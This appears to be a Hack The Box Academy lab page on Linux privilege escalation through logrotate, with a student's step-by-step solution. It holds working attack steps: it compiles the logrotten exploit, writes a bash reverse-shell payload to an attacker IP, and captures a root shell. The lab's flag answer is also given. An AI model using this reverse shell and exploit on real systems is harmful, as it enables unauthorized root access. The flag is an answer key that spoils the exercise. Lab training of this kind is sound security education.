 Every Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called `logrotate` takes care of archiving or disposing of old logs. If no attention is paid to log files, they become larger and larger and eventually occupy all available disk space. Furthermore, searching through many large log files is time-consuming. To prevent this and save disk space, `logrotate` has been developed. The logs in `/var/log` give administrators the information they need to determine the cause behind malfunctions. Almost more important are the unnoticed system details, such as whether all services are running correctly.

`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```shell-session
KaoruRyusaki@htb[/htb]$ man logrotate
KaoruRyusaki@htb[/htb]$ # or
KaoruRyusaki@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

```shell-session
KaoruRyusaki@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```shell-session
KaoruRyusaki@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
KaoruRyusaki@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
KaoruRyusaki@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our VM / Pwnbox, which waits for the target system's connection.

```shell-session
KaoruRyusaki@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```




#### Question

Escalate the privileges and submit the contents of flag.txt as the answer.

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run command " find / -name "\*.log" 2>/dev/null " to look for possible writeable .log documents, in this case you will find the " access.log " right in our folder
* Write a reverse shell command into a payload file, something like " echo 'bash -i >& /dev/tcp/\<your ip>/\<your port number> 0>&1' > payload.sh " and leave it ready to use
* Download or create a document from logrotten github called logrotten.c and then compile it with a command like " gcc logrotten.c -o logrotten "
* Run Command on another terminal as " nc -nlvp \<your port number> " and wait for the reverse shell to work
* Trigger logrotate by manipulating the access.log with a command like " echo "hey" > access.log ", you will notice that a copy of the access.log file will pop on your folder
* Quickly run command " ./logrotten -p ./payload.sh /home/htb-student/backups/access.log ", you will notice after a couple seconds the second terminal getting access as root
* Run command " cat flag.txt" before the shell closes 
* HTB{l0G_r0t7t73N_00ps}